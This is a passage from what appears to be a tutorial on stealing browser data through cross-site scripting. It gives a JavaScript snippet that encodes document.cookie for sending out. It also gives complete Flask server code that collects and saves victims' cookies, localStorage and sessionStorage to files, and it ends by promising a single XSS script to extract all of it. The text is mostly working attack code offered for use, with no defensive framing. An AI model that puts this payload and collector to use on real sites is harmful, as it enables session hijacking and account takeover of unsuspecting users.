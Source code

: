 <br>
The content type that best fits our request here is application/x-www-form-urlencoded. Flask can parse the request really easily with the use of .form. We are almost done. We only have problems if cookies contain some special characters. These characters are { , } , \| , \ , ^ , ~ , [ , ] , and ` . All unsafe characters must always be encoded within a URL. Luckily we have a simple JavaScript function to help with this. With the help of encodeURIComponent(), we can encode the parameters before sending them like this:
<br>

```
var body = "a=" + encodeURIComponent(document.cookie);
```
<br>
<h2> End: </h2>
So now we have a few scripts for extracting different data and a web server that saves the incoming data. After a small refactor and preparing the web server for receiving and saving multiple different data we end up with a server something like this:

```
from flask import Flask
from flask import request

app = Flask(__name__)

@app.route("/saveCookie", methods=['POST', 'GET'])
def saveCookie():
    cookie = ""
    if request.method == 'GET':
        cookie = request.args.get("a")
    else:
        cookie = request.form["a"]
    f = open("savedCookies.txt", "a")
    f.write(cookie)
    f.write("\n")
    f.close()
    return ""

@app.route("/saveLocalStorage", methods=['POST', 'GET'])
def saveLocalStorage():
    localStorage = ""
    if request.method == 'GET':
        localStorage = request.args.get("a")
    else:
        localStorage = request.form["a"]
    f = open("savedLocalStorage.txt", "a")
    f.write(localStorage)
    f.write("\n")
    f.close()
    return ""

@app.route("/saveSessionStorage", methods=['POST', 'GET'])
def saveSessionStorage():
    sessionStorage = ""
    if request.method == 'GET':
        sessionStorage = request.args.get("a")
    else:
        sessionStorage = request.form["a"]
    f = open("savedSessionStorage.txt", "a")
    f.write(sessionStorage)
    f.write("\n")
    f.close()
    return ""
```
<br>
For this we can do a single XSS script that will extract all this data for us.